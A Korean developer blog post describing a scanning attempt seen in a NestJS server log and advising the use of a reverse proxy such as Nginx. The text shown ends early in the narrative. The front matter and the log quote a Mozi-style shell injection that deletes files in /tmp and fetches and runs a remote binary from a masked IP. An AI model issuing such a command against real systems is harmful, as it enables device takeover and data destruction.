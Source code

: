 ```yaml
---
layout: post
title: "자잘한 도움말 #11 이름 모를 외국인들에게 공격당함"
description: "프록시, 리버스 프록시, 웹 스캐닝, DDoS, Nginx, Vue Proxy, Proxy, Reverse Proxys, /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws, 해커맨, 웹 서버와 웹 어플리케이션 서버의 차이, 웹 서비스 구축 중 신경 써야할 보안 문제"
date: 2023-10-01 12:49:00 +0900
category: micro

id: 11
slug: alien invasion
tags: [💡, Network]
---
```


## TL;DR

- 클라우드에 여러 서버 인스턴스를 열어 두었는데 수상한 접근 시도를 발견했다.

```plaintext
[Nest] 9095  - xx/xx/xxxx, x:xx:xx AM	[HttpFilter]
{
  "statusCode":404,
  "message":"Cannot GET /shell?cd+/tmp;rm+-rf+*;wget+http://xx.xx.xx.xx:xxxxx/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws",
  "error":"Not Found"
}
hostname: xx.xxx.xxx.xx, addr: ::ffff:xx.xx.xx.xx
```

- 요청을 직접 받을 서버만 공개하고 리버스 프록시를 사용하자.
  - 보안 취약점을 제거할 수 있고, 모니터링할 포인터를 하나로 좁힐 수 있다.
  - 프론트엔드 프레임워크(Vue, React) 수준의 프록시 설정은 개발용 설정이다.
  - 배포 환경에서는 Nginx나 Apache 같은 웹 서버에서 프록시를 설정하자. 

## 이하 그리 중요하진 않은 내용들

### 험난한 정보의 바다

인터넷을 정보의 바다라고들 한다. 아마 한.. 30년 전부터.. 이젠 좀 삭았지만 나는 이 표현을 좋아한다. 겉으로 보기엔 평화롭고 풍요로워 보이는 수면 아래에 이런 상어들이 득실거리고 있다는 사실을 잘 나타내거든.

<p class="center w-3-quarter">
  <img src="https://i.postimg.cc/jshdKXWs/image.png" alt="경쟁상대"/>
</p>

특히 해커맨, 그들은 우리의 IP를 언제든지 알고 있다. 오늘은 외부 접속이 가능하도록 공개된 서버를 구축하는 중 내가 겪었던 일에 대해 코멘트를 달아보고자 한다. 쉘 환경에서 명령어를 입력한다던가, 코드를 수정한다던가, 운영체제의 설정 파일을 건드리는 내용은 아니다. 좀 더 이론 혹은 지침에 가까운 내용을 다뤄볼 계획이다. 

### 작년 이맘 때에...
